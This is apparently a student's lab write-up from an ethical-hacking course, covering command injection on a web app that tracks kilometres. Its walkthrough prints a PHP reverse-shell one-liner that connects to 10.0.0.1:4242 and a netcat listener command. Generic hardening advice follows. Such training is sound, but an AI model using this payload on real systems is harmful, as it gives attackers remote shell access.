


# 🛡️ Challenge -Lab 3

> **Course:** [Practical Ethical Hacking](../../README.md)  
> **Module:** [Common Web Vulnerabilities](./README.md)  
> **Navigation Path:** `Practical Ethical Hacking > Common Web Vulnerabilities > Challenge -Lab 3`

---

## 🎯 Executive Summary & Technical Objectives
This document details the practical methodology, tooling, exploitation chain, and defensive remediation for **Challenge -Lab 3** as conducted in the TCM Security lab environment.

---

## 🔬 Hands-On Walkthrough & Technical Evidence


It was a website to check kilometers travelled

Below is the syntax which was used



*Figure: Lab Execution Screenshot / Proof of Exploit*

The ones in red boxes are the entry points for us, as they are the places where user input was allowed to be part of code

Used the following payload

```php
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Line 2 is the payload crafted to enter in the second column



*Figure: Lab Execution Screenshot / Proof of Exploit*


Opened a netcat listener 

```php
nc -nlvp 4242
```

Excecuted the payload and got a shell


---

## 🛡️ Defensive Hardening & Detection Signatures
- **Monitoring & Auditing:** Enable granular auditing for process creation (Windows Event ID 4688 / Sysmon Event 1) and network connections (Sysmon Event 3).
- **Least Privilege:** Enforce strict principle of least privilege across user accounts and service configurations.
- **Continuous Validation:** Conduct routine vulnerability scanning and automated configuration reviews to identify drift.

---
[⬅ Back to Common Web Vulnerabilities](./README.md) • [🏠 Master Course Index](../README.md)
